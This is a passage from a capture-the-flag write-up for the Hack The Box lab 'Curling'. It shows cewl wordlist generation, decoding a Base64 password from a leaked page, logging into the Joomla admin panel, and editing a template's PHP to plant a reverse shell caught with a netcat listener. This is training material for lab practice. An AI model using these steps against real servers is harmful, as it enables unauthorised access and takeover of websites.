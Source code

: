 http://10.129.92.218/administrator/ seems to be the same login form. it is a Joomla! powered webserver.

We also have the hint of cewl. 

So let's try cewling:

```
kali@kali:~/htb/Curling$ cewl -d 5 -m 5 -w cewl.txt http://10.129.92.218
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
kali@kali:~/htb/Curling$ cat cewl.txt | wc -l
123
```

We go depth 5, and minimum length 5, write to cewl.txt.


I look over the wlist quick, and see "secret". So I try secret.txt

This is a page with "Q3VybGluZzIwMTgh"

Looks like it could be Base64, so let's decode it:

```
kali@kali:~/htb/Curling$ echo "Q3VybGluZzIwMTgh" | base64 -d && echo
Curling2018!
```

Looks like a possible password. I try with admin/administrator/Super User etc. but nothing works. So I check the blog content again and have the obvious answer:

```
Hey this is the first post on this amazing website! Stay tuned for more amazing content! curling2018 for the win!

- Floris
```


Floris:Curling2018! works.


I head over to the admin panel to look for file upload so we can get reverse shell. If we don't see any obvious methods, we can get the Joomla! version and check searchsploit.

I go to help->Joomla! Help, to get the version 3.8.8

I check the templates and see that I can edit the php files directly.

I simply add a nishang php reverse shell at the top of the index page, and start my listener. Then I refresh the home page.


```
kali@kali:~/htb/Curling$ sudo nc -nlvp 1337
[sudo] password for kali: 
Listening on 0.0.0.0 1337
Connection received on 10.129.92.218 34628
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 00:36:51 up  3:00,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
``` 
